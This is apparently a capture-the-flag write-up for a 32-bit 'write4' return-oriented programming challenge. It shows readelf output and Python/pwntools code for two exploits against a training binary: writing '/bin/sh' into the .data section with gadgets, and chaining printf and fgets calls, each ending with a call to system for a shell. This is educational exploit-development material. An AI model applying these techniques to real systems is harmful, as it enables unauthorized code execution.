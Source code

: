 # write4 - 32bit

### gadget exploit

This challenge involves us using gadgets to write data onto the stack.

Checking areas we can write to can be achieved with this command:
```
$ readelf --sections write432

There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000d0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ac 0002ac 000081 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804832e 00032e 00001a 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048348 000348 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048368 000368 000020 08   A  5   0  4
  [10] .rel.plt          REL             08048388 000388 000038 08  AI  5  24  4
  [11] .init             PROGBITS        080483c0 0003c0 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483f0 0003f0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048470 000470 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048480 000480 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486e4 0006e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804875c 00075c 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048798 000798 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001030 000034 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 001861 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 001064 000510 10     30  50  4
  [30] .strtab           STRTAB          00000000 001574 0002ed 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

Looking through this for an area gives us the best candidate:

```
[25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
```

We can then check if the `.data` section is empty with the command below:

```
$ readelf -x .data write432

Hex dump of section '.data':
  0x0804a028 00000000 00000000                   ........
```

Nothing currently resides in `.data`. This, therefore, makes it the perfect candidate for out date injection.

The next step is to look for some gadgets to move data into this memory address. We are looking for a `mov [<REG>], [REG]` gadget that will allow us
to move data into an address of our choice.

The chosen gadget is below:
```
0x08048670 : mov dword ptr [edi], ebp ; ret
```

This then means if we find some `pop` gadgets for `edi` and `ebp` we can add data to the location of our choice.
`edi` will hold the memory location of `.data` and `ebp` the string to write.

Putting this all together allows us to create a helper method used to write 4 bytes of a string in one call

```python
def write_string_to_memory(start_addr, string_data, g_pop, g_mov):

    # Pads the string
    required = abs((len(string_data) % 4) - 4)
    string_data += " " * required

    # Split the string into sets of 4
    chunks = re.findall(r"....", string_data)

    # Writes data to memory
    payload = b""
    for c in chunks:
        payload += g_pop
        payload += p32(start_addr)
        payload += str.encode(c)
        payload += g_mov

        # Increment the address each time
        start_addr += 4

    return payload
```

This then enables us to craft the payload dynamically using the gadgets.

To finish off the exploit, a call to system is used with the start location of the string.

Overall the payload is formed like so:

```python
payload = b""
payload += junk # x 44
payload += write_string_to_memory(string_location, "/bin/sh", g_pop_pop, g_mov) 
payload += system_func
payload += p32(0x90) # exit addr
payload += p32(string_location)
```

### fgets exploit

Another way to exploit this binary is via a `fgets` call. This allows us to write data via `stdin` to a specified location.
The exploit will also utilise `pwntools` ROP functionality to easily craft an exploit.

First the exploit grabs important addresses from the `elf`. Note: the `.data` address is obtained in exactly the same way as the previous exploit.

```python
printf  = e.symbols[b"printf"]
main    = e.symbols[b"main"]
stdin   = e.symbols[b"stdin"]
fgets   = e.symbols[b"fgets"]
buffer_mem = 0x0804a028 #.data
```

Our first ROP chain will use the `printf` address to leak the location of `stdin`.

This is achieved like so:
```python
rop = ROP(e)
rop.call(printf, (stdin,))
rop.call(main, (0,0,0,))
payload = (b"\x41" * BUFFER_LEN) + rop.chain()
p.sendline(payload)
```

And the leaked address is obtained with:
```python
data = p.recv()
stdin_buf = unpack(data[0:4])
```

This then leads to out second chain where we can send data via `stdin` that will then be placed into our desired memory location.


Our second chain starts like so:

```python
rop = ROP(e)
rop.call(fgets, (buffer_mem, 0x15, stdin_buf,))
rop.call(main, (0,0,0,))
payload = (b"\x41" * BUFFER_LEN) + rop.chain()
p.sendline(payload)
```

Then anything send via `stdin` will be placed in the `buffer_mem` location.

```python
p.sendline("/bin/sh")
```

Our final chain will then use the local `system` address to call the memory location of our string.

```python
rop = ROP(e)
rop.system(buffer_mem)
payload = (b"\x41" * BUFFER_LEN) + rop.chain()
p.sendline(payload)
```

Then calling `p.interactive()` will provide us a shell!